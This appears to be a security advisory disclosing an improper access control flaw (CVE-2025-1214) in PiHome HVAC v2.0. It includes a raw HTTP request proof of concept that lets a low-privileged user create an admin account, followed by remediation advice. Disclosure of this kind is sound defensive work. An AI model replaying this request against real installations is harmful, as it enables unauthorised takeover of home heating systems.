

# **Improper Access Control in PiHome HVAC v2.0**

## **Summary**
A critical security vulnerability has been identified in PiHome HVAC v2.0, specifically in the `/user_accounts.php` endpoint. The application fails to enforce proper access control, allowing unprivileged users to create new admin accounts.

## **Affected Component**
- **Endpoint:** `/user_accounts.php`
- **CWE:** [CWE-862: Improper Access Control](https://cwe.mitre.org/data/definitions/862.html)
- **CVE:** [CVE-2025-1214](https://www.cve.org/CVERecord?id=CVE-2025-1214)
- **VulDB:** [VDB-295173](https://vuldb.com/?id.295173)

## **Vendor Homepage**
[PiHome HVAC GitHub Repository](https://github.com/pihome-shc/PiHomeHVAC)

## **Steps to Reproduce**
1. Set up the PiHome HVAC project.
2. Use cURL or Burp Suite to craft a request that creates a new account with administrative privileges.

## **Impact**
The application does not validate whether the user making the request has admin privileges before allowing account creation. This oversight enables any authenticated user, including low-privileged accounts, to create new admin accounts, leading to full system compromise.

## **Proof of Concept (PoC)**
### **HTTP Request:**
```http
POST /user_accounts.php?uid HTTP/1.1
Host: 127.0.0.1:8888
Content-Length: 143
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Origin: http://127.0.0.1:8888
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8888/user_accounts.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=4821f6d66308626b9f9e54f8c27426fc; PiHomeLanguage=en
Connection: keep-alive

submit=Save&full_name=Jelle&account_enable=1&user_name=attackeradmin&user_email=attacker%40exploit.be&admin_account=1&persist=0&new_pass=pihome
```

### **Screenshot Proof:**


## **Remediation**
To mitigate this vulnerability, it is recommended to:
1. **Implement Role-Based Access Control (RBAC):** Ensure only admin users can create new admin accounts.
2. **Enforce Authorization Checks:** Before processing any account creation request, verify if the requester has the appropriate privileges.
3. **Audit and Log Account Creation Requests:** Maintain logs of account creation actions and review them periodically for suspicious activity.
4. **Apply Least Privilege Principle:** Restrict low-privileged users from accessing administrative functions.

## **Credits**
This vulnerability was discovered and reported by [Jelle Janssens](https://github.com/janssensjelle).